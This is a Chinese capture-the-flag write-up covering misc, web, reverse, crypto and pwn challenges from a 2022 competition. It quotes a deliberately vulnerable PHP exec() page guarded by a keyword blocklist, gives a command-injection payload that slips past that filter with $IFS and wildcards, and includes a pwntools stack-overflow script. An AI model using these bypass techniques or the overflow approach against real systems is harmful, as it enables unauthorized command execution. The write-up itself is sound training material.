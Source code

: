 ## 写在前面

19号凌晨，打了两个小时就没打了，白天又去打TQLCTF了，导致把这个比赛忘记了，后面题目上新也没看见，排名60+，这几天补一下吧

——KonDream 2022年2月21日15:12:35

## MISC

### Sign-in

红客突击队公众号发送“HSC2019”

## WEB

### CLICK

前端验证，翻翻源码就出了

### Web-sign in

访问robots.txt得到fiag_ls_h3re.php，发现右键被禁，F12被禁，直接开发者工具看源码出flag

### EXEC

这题是三血，不难

```php
<?php
error_reporting(0);
if(isset($_REQUEST["cmd"])){
    $shell = $_REQUEST["cmd"];
    $shell = str_ireplace(" ","",$shell);
    $shell = str_ireplace("\n","",$shell);
    $shell = str_ireplace("\t","",$shell);
    $shell = str_ireplace("?","",$shell);
    $shell = str_ireplace("*","",$shell);
    $shell = str_ireplace("<","",$shell);
    $shell = str_ireplace("system","",$shell);
    $shell = str_ireplace("passthru","",$shell);
    $shell = str_ireplace("ob_start","",$shell);
    $shell = str_ireplace("getenv","",$shell);
    $shell = str_ireplace("putenv","",$shell);
    $shell = str_ireplace("mail","",$shell);
    $shell = str_ireplace("error_log","",$shell);
    $shell = str_ireplace("`","",$shell);
    $shell = str_ireplace("exec","",$shell);
    $shell = str_ireplace("shell_exec","",$shell);
    $shell = str_ireplace("echo","",$shell);
    $shell = str_ireplace("cat","",$shell);
    $shell = str_ireplace("ls","",$shell);
    $shell = str_ireplace("nl","",$shell);
    $shell = str_ireplace("tac","",$shell);
    $shell = str_ireplace("bash","",$shell);
    $shell = str_ireplace("sh","",$shell);
    $shell = str_ireplace("tcp","",$shell);
    $shell = str_ireplace("base64","",$shell);
    $shell = str_ireplace("flag","",$shell);
    $shell = str_ireplace("cp","",$shell);
    exec($shell);
}else{
    highlight_file(__FILE__);
}
```

一堆过滤，exec执行结果看不到，考虑ls>1.txt，将结果重定向到一个文件里就行了，空格用$IFS$1绕，ls用dir绕，flag在根目录的ctf_is_fun_flag2021，但是flag被过滤，用通配符绕，最终payload：``/?cmd=more$IFS$1/ctf_is_fun_fla[f-h]2021>3.txt``

## REVERSE

### hiahia o(*^▽^*)┛

挺简单的，直接逆就行

```python
'''
Author: KonDream
Date: 2022-02-19 00:53:43
LastEditors:  KonDream
LastEditTime: 2022-02-19 00:58:03
Description:  
'''
a = 'igdb~Mumu@p&>%;%<$<p'
flag = ''
for i in range(20):
    if i > 9:
        if i & 1 == 0:
            flag += chr(ord(a[i])-11)
        if i % 2 == 1:
            flag += chr(ord(a[i])+13)
    else:
        if i & 1 == 0:
            flag += chr(ord(a[i])-3)
        if i % 2 == 1:
            flag += chr(ord(a[i])+5)

print(flag)
# flag{RrrrEe33202111}
```

### Android

源码

```java
public void onClick(View arg8) {
    String v8 = this.input.getText().toString().trim();
    int v0 = 18;
    int[] v1 = new int[]{102, 13, 99, 28, 0x7F, 55, 99, 19, 109, 1, 0x79, 58, 83, 30, 0x4F, 0, 0x40, 42};
    int[] v2 = new int[]{42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42, 42};
    if(v8.length() != v0) {
        this.input.setText("FLAG错误");
    }
    else {
        char[] v8_1 = v8.toCharArray();
        int v3 = 0;
        int v4;
        for(v4 = 0; v4 < 17; ++v4) {
            int v5 = v4 % 2 == 0 ? v8_1[v4] ^ v4 : v8_1[v4] ^ v8_1[v4 + 1];
            v2[v4] = v5;
        }

        v8 = "";
        for(v4 = 0; v4 < v0; ++v4) {
            v8 = v8.concat(Integer.toHexString(v2[v4])).concat(",");
        }

        System.out.println(v8);
        while(v3 < v0) {
            if(v2[v3] != v1[v3]) {
                this.input.setText("FLAG错误！");
                return;
            }

            ++v3;
        }

        this.input.setText("FLAG正确");
    }
}
```

直接逆

```python
'''
Author: KonDream
Date: 2022-02-19 01:20:11
LastEditors:  KonDream
LastEditTime: 2022-02-19 01:36:54
Description:  
'''
a = [102, 13, 99, 28, 0x7F, 55, 99, 19, 109, 1, 0x79, 58, 83, 30, 0x4F, 0, 0x40, 42];

flag1 = ''
for i in range(18):
    if i % 2 == 0:
        flag1 += chr(a[i] ^ i)
    else:
        flag1 += ' '

flag2 = ''
for i in range(17):
    if i % 2 == 1:
        flag2 += chr(a[i] ^ ord(flag1[i+1]))
    else:
        flag2 += ' '

flag = ''
for i in range(17):
    if i % 2 == 0:
        flag += flag1[i]
    else:
        flag += flag2[i]

print(flag + '}')
# flag{Reverse__APP}
```

## Crypto

### Easy SignIn

```markdown
5445705857464579517A4A48546A4A455231645457464243566B5579556C7053546C4A4E524564565646644D515670455130354C5755644F5231685256314A5452315A5552304E57576C5A49525430395054303950513D3D
```

应该都是base，ciphey一把梭

## PWN

### Ez_pwn

属于是签到题了，我这个小白都能做，栈溢出，返回到后门地址即可

```python
'''
Author: KonDream
Date: 2022-02-19 01:47:08
LastEditors:  KonDream
LastEditTime: 2022-02-21 15:37:08
Description:  
'''
from pwn import *
import pwn
# p = remote("hsc2019.site",10485)
p = pwn.process("pwn")
# 地址忘了，自行填吧
payload = b"A"*(0x64+8) + p64(xxx)
print(payload)
p.sendline(payload)

p.interactive()
```

